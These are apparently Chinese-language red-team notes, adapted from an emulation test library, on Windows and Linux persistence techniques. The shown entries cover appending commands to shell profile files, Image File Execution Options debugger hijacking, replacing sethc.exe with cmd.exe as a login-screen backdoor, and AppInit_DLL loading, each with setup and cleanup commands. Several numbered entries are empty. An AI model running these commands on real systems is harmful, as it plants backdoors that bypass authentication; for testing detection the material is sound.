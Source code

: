 # 001
# 002
# 003
# 004-.bash_profile和.bashrc
> ### 基础  
> /etc/profile: 此文件为系统的每个用户设置环境信息,当用户第一次登录时,该文件被执行.并从/etc/profile.d目录的配置文件中搜集shell的设置.  
> /etc/bashrc:  为每一个运行bash shell的用户执行此文件.当bash shell被打开时,该文件被读取.  
> ~/.bash_profile: 每个用户都可使用该文件输入专用于自己使用的shell信息,当用户登录时,该文件仅仅执行一次!默认情况下,他设置一些环境变量,执行用户的.bashrc文件.  
> ~/.bashrc: 该文件包含专用于你的bash shell的bash信息,当登录时以及每次打开新的shell时,该该文件被读取.  
> ~/.bash_logout: 当每次退出系统(退出bash shell)时,执行该文件.  
> ### 利用(linux/macOS)
> ```bash 
> echo "#{command}" >> ~/.bash_profile  
> echo "#{command}" >> ~/.bashrc```
# 005

# 006
# 007
# 008-辅助功能
> ### 基础  
> 攻击者可以通过执行可访问性功能触发的恶意内容来建立持久性和/或提升特权。Windows包含可访问性功能，这些功能可以在用户登录之前通过组合键启动（例如：当用户在Windows登录屏幕上时）。攻击者可以修改这些程序的启动方式，以获取命令提示符或后门程序，而无需登录系统。
两个常见的可访问性程序分别是：C:\Windows\System32\sethc.exe在按住shift键五次C:\Windows\System32\utilman.exe时启动；以及在按下Windows + U组合键时启动。sethc.exe程序通常称为“粘滞键”，并且已被攻击者用于通过远程桌面登录屏幕进行未经身份验证的访问。（引文：FireEye Hikit Rootkit） 
> ### 利用(windows)
> 1.附属程序作为调试到潜在程序  
> powershell脚本如下:(parent_list/attached_process)
> ```powershell
$input_table = "#{parent_list}".split(",")
$Name = "Debugger"
$Value = "#{attached_process}"
Foreach ($item in $input_table){
  $item = $item.trim()
  $registryPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\$item"
  IF(!(Test-Path $registryPath))
  {
    New-Item -Path $registryPath -Force
    New-ItemProperty -Path $registryPath -Name $name -Value $Value -PropertyType STRING -Force
  }
  ELSE
  {
    New-ItemProperty -Path $registryPath -Name $name -Value $Value
  }
}
> ```
> 清除脚本:  
> ```powershell
$input_table = "#{parent_list}".split(",")
Foreach ($item in $input_table)
{
  $item = $item.trim()
  reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\$item" /v Debugger /f 2>&1 | Out-Null
}
> ```
> 2.粘滞建替换  
> 命令：  
> ```powershell
copy C:\Windows\System32\sethc.exe C:\Windows\System32\sethc_backup.exe
takeown /F C:\Windows\System32\sethc.exe /A
icacls C:\Windows\System32\sethc.exe /grant Administrators:F /t
copy /Y C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
> ```
> 清除：
> ```powershell
copy /Y C:\Windows\System32\sethc_backup.exe C:\Windows\System32\sethc.exe
> ```
# 009-AppCertDLL
### 
# 010-AppInit DLL
> ### 基础  
> AppInit_DLLs是一种机制，它允许将任意DLL列表加载到系统上的每个用户模式进程中。成功执行后，您将看到消息“操作成功完成”。每次加载DLL时，您都会看到一个消息框，其中显示一条消息：“安装AppInit Shim DLL被调用！”。出现。当您的计算机启动各种应用程序时，这会定期发生，并且实际上可能使您发疯。使消息框出现并验证AppInit DLL正在加载的一种可靠方法是启动记事本应用程序。确保以后再运行清理命令，以免出现消息框
> ### 利用
> 命令：
> ```powershell
reg.exe import #{registry_file}
> ```
> 清除：
> ```powershell
reg.exe import #{registry_cleanup_file} >nul 2>&1
> ```
# 011
# 012
# 013
# 014
# 015